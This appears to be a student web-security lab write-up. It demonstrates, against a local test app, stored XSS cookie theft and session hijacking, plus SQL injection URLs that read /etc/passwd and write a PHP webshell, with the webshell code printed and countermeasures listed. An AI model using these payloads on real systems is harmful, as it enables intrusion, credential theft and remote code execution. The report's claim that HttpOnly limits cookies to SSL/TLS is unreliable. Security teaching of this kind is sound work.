




# Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comments section on the home page. Indeed, there was no filtering or encoding of any kind of HTML charaters or quotes.
This allowed us to inject some javascript code in the field to display a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator of the website checking the comments page.

#### Description of the attack

The command that we decided to insert in the "text" field to steal the administrator's cookie is:

```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('');</script>
```

When the administrator checks the comments page, the first source of the image will send his cookie (via the `document.cookie`) to our requestbin url where it can be easily retrieved.


The thing is, the victim will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror` attribute of the `` tag to prevent showing a broken image which could be suspicious.



If we wanted to be even more stealthy, we could just accomplish the same thing but without displaying anything to the admin:

```html

```

All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value set in the administrator's cookie.


Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:


To prevent this attack from happening, we should sanitize user's inputs in the comments' text field. 
We can add escaping/encoding functions in the back-end source code to prevent special HTML characters usage. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

##### Client-side

Disable javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly, so it can't be a solution on the long run.

Install Web browser extensions:
It is possible to install plugins like Firefox NoScript, among many others, to specify the websites that should be trusted by the browser to execute scripts.

##### Server-side

HttpOnly flag: 
One thing that could be done to prevent cookie stealing is to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is, we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding functions:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charaters that could be used to inject code in the input fields.


Use Content Security Policy (CSP):
A CSP could also be useful to prevent the execution of potential XSS scripts. By specifiying an HTTP `Content-Security-Policy` header in the responses from the web server, we can, for exemple, specify to the web browser of the client to only load content from specific sources.
If we specify `Content-Security-Policy: script-src 'self'; img-src *` in the HTTP header of the responses, we can indicate to the web browser to only load scripts from the same origin (domain) as the rest of the web page, but accept to load any image from any other source for exemple.
In a way, it is also a client-side countermeasure because the web browser needs to be CSP compatible for the rules to take effect and for it to execute only the scripts from an authorized origin.


Use Iframe protection mechanisms:
One possible type of attack that could be used by a malicious individual is to load the web page into an iframe HTML tag of his own evil website and try to steal informations from clients visiting it without them even being aware that they are not on the right website.
To prevent this possibility from happening, Javascript-based Frame busters could be implemented to block the display of the web page in case of Framing by another website. It is also possible to use the header `X-Frame-Options` in the HTTP responses to specify that a web page shouldn't be loaded inside an iframe tag of another website.
In this case, a warning message appears in the Framed loaded web page to warn the client.
For exemple, if we specify `X-Frame-Options: DENY` as value for the header, no website could be able to Frame the web page without warning the client.
The X-Frame-Options countermeasure is, as for the CSP countermeasure, a bit client-sided because the client's web browser needs to be X-Frame-Options compatible for it to work.

### Part 2: SQL Injection

#### Known Vulnerabilities

First of all, we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then, we found that the URL was not sanitized, meaning that some commands can be executed through the path. In this lab, we need to perfom SQL injections, meaning that we will execute SQL queries inside the URL.
To be able to inject SQL commands in the URL, we have to add an "union" keyword at the end of it and pursue with the rest of our custom query.
Then, the first step is to determine the number of columns that are returned by the first part of the query in order to not create an error. To do that, we have to do some kind of "bruteforce" by adding another "select" and increasing the number of queried fields until no error appears on the web page anymore:



Finally, after adding 4 columns, no error is displayed. This means that we guessed the correct number:



However, the id=0 seems to be the only one letting us inject SQL commands. We guess that it is because it doesn't correspond to any actual post on the comment section.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads the `/etc/passwd` file and displays its content into the update form, as seen in the image below:


In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server with the mysql user's rights, which has more privileges than the default www-data user.
Thus, it is possible to display sensitive files' content. For example, in this case, the file containing informations about users registered on the system. Before we would also have found passwords in this file, but modern UNIX systems now use the `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will create in our `css` folder, which has write access for everyone, a php file to launch a shell on the server. We cannot upload our file directly on the root of the project
since we don't have writing permissions. Directory trees can be explored with the help of various tools. An interesting one would be the python module `wfuzz` which allows to perform directory listings on web servers.

```bash
$pip install wfuzz
$wfuzz -w urls.txt http://localhost/FUZZ # the tool will replace the word FUZZ with every word in our dictionary 
```

With `url.txt`, a file containing common directory names for websites, we can enumerate the subdirectories on the web server.
We can easily find some dictionary lists on Github: example with this [fuzzdb project](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery/predictable-filepaths/filename-dirname-bruteforce)



We can then perform SQL injection on each directory we found. Once the script tries to inject the payload in the `css` folder, we can see that it appeared into our directory :


Our file contains php code that will fetch the "cmd" parameter in our url, and run it through a shell:

```php
<?php
    system($_GET['cmd']);
?>
```

Now that we have our php file on the server, we can execute code remotely:


Note that the webshell file belongs to mysql, but when we run the command `whoami` through the web application, it seems that we are logged in as www-data user, 
which is the standard user that is often reserved for remote users on web apps in Apache. It has few rights on the system but if we modify a little bit our previous 
URL that writes a php file, we could, for example, activate the SUID flag on the file. By setting our real user ID as the effective user ID, we could send commands 
using mysql user, which has advanced rights on the system. 

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning that instead of injecting values directly in the command, it uses inputs as parameters. Those are then formatted with only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers, if an error occurs, it is sometimes thrown back to the client's browser. This could allow a potential attacker to use this information disclosure (like tables structure for example) to break the system.
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, can also be done by an attacker. We have a case here by being able to read the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database but forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application where you can specify every action that are allowed on each table by creating prepared functions. You use them instead of querying directly your database. Any request which is not part of a procedure would be rejected because, in a standard usage, you would not need to do this action.

##### Operating System

- Change permissions on the server: In web servers, it is mostly recommended that directories' permissions should be 755 and 644 for the files. Permissions 777 are not recommended because they give too many rights. When we created the webshell, we used the writing rights that were allowed in the css folder. Those rights don't have a purpose during normal execution so, by removing this permission, we would ensure that users can't write in this folder.


### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
3. [Content Security Policy (CSP), MDN Web Docs Mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
4. [How to Prevent Framing Attacks, Hackmanit](https://www.hackmanit.de/en/blog-en/81-how-to-prevent-framing-attacks)
